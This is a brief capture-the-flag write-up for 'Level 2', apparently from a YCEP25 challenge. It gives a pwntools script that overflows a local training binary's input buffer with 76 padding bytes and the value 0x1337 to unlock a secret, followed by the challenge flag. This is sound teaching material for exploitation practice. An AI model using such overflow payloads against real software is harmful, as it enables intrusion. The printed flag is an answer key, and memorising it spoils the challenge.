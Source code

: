 # Level 2

## Solution

```py
from pwn import *

context.log_level = 'debug'

binary = './level2'
elf = ELF(binary)


io = process(binary)
payload = b'A' * 76  + p32(0x1337)

io.recvuntil(b"Enter the override code to unlock the secret compound: ")

io.sendline(payload)
io.interactive()
```

FLAG : `YCEP25{c0mput3r_0v3rr1d3}`
